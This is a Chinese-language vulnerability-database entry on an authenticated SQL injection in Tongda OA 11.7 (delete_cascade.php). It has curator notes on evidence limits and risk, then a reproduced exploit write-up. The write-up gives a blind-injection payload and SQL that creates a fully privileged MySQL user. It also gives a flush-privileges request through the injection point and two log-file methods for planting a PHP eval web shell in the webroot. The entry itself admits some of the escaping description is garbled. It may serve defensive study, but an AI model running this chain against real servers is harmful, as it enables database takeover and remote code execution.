

# 通达OA delete_cascade SQL 注入日志链

## 条目说明

- 对象与具体问题：通达OA；delete_cascade SQLi日志链
- 版本、配置及部署条件：11.7
- 认证与权限前提：后台及DB高权限/写权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 转义把替换前后都写成反斜杠引号丢失关键差异
- 日志文件名完整可补255，仍含主动password_expired=Y和无恢复步骤
- 来源只补库批，需追原作者

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

一、漏洞简介
------------

#### 利用条件：

需要登陆后台

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下：

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的\'替换为\'。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用addslashes函数进行保护，如下：

`inc/common.inc.php`代码

因为是无回显机制，是盲注，所以尝试(select 1 from (select
sleep(5))a)，结果没那么简单：

触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

其过滤了一些字符，但是并非无法绕过，盲注的核心是：substr、if等函数，均未被过滤，所以还是有机会的。

传入错误的SQL语句时，页面出错：

那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

    select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错

#### 构造利用链

> 添加用户：

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

    UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

提示这个，或者让改密码死活改不了。再执行一下

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

#### 写shell

    # 查路径：
    select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot    # 方法1：
    set global slow_query_log=on;
    set global slow_query_log_file='C:/td0a117/webroot/tony.php';
    select '<?php eval($_POST[x]);?>' or sleep(11);
    # 方法2：
    set global general_log = on;
    set global general_log_file = 'C:/td0a117/webroot/tony2.php';
    select '<?php eval($_POST[x]);?>';
    show variables like '%general%';

